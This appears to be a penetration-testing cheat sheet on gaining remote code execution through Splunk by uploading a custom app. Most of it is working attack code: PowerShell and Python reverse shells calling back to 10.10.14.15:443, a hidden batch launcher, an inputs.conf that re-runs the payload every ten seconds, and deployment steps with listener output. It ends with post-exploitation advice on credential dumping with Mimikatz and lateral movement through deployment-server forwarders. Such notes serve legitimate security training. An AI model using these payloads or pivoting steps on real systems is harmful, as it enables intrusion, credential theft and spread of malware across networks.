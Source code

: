 ## Attacking Splunk
### Objective

Leverage custom applications and built-in script execution features of Splunk to gain Remote Code Execution (RCE) and escalate to SYSTEM/root.
### Exploitable Feature

- Splunk allows installation of custom applications    
- Apps can include:
    - PowerShell scripts        
    - Python scripts
    - Batch files
    - Bash scripts
### Target OS: Windows
#### Directory Structure for App

```
splunk_shell/
├── bin
│   ├── run.ps1      # Reverse shell PowerShell script
│   ├── run.bat      # Batch file to invoke the PS script
│   └── rev.py       # Optional (for Linux hosts)
└── default
    └── inputs.conf  # Defines execution settings
```
### Reverse Shell – PowerShell One-liner (Windows)

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```

Save this to:

```
splunk_shell/bin/run.ps1
```
### `run.bat` – Launcher Script

```bat
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Save this to:

```
splunk_shell/bin/run.bat
```
### inputs.conf – Script Configuration

```ini
[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Save this to:

```
splunk_shell/default/inputs.conf
```

> `interval = 10` → Executes every 10 seconds  
> `disabled = 0` → Enables script immediately after upload
### Create App Archive

```bash
tar -czvf updater.tar.gz splunk_shell/
```
### Deploy the App in Splunk GUI

1. Visit:

```
https://<target_ip>:8000/en-US/manager/search/apps/local
```

2. Click “Install app from file”

3. Upload `updater.tar.gz`
   
4. Reverse shell should trigger instantly
### Start Listener

```bash
sudo nc -lnvp 443
```

Expected Output:

```plaintext
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145
whoami
nt authority\system
```
### Target OS: Linux

Replace `.bat` and `.ps1` with:

#### `rev.py` – Python Reverse Shell

```python
import sys,socket,os,pty

ip="10.10.14.15"
port=443
s=socket.socket()
s.connect((ip,port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

Update `inputs.conf` accordingly:

```ini
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell
```
### Post-Exploitation

- Reverse shell is typically NT AUTHORITY\SYSTEM or root
- From here:
    - Dump credentials from registry/memory        
    - Use Mimikatz, LaZagne, etc.
    - Begin Active Directory enumeration
    - Lateral movement via credential reuse
### Pivoting via Deployment Server (Advanced)

If Splunk host is a deployment server:

- You can push malicious apps to Universal Forwarders on other machines

Steps:

1. Place app in:

```
$SPLUNK_HOME/etc/deployment-apps/
```

2. App is automatically replicated to enrolled systems   

3. Forwarders execute the script payload (PowerShell preferred for Windows-only networks)

> Note: Universal Forwarders do not include Python, so use PowerShell payloads on Windows.
### Summary

|Step|Description|
|---|---|
|Build app|Create `splunk_shell/` with scripts and `inputs.conf`|
|Upload app|Through Splunk Web UI on port 8000|
|Listener|Use Netcat to catch shell|
|Access level|Often SYSTEM/root due to default service context|
|Post-exploitation|Credential dumping, domain enumeration, lateral movement|
|Bonus|Lateral via deployment server and forwarders|
# Tags
> #Exploitation #Application-Exploitation #Splunk 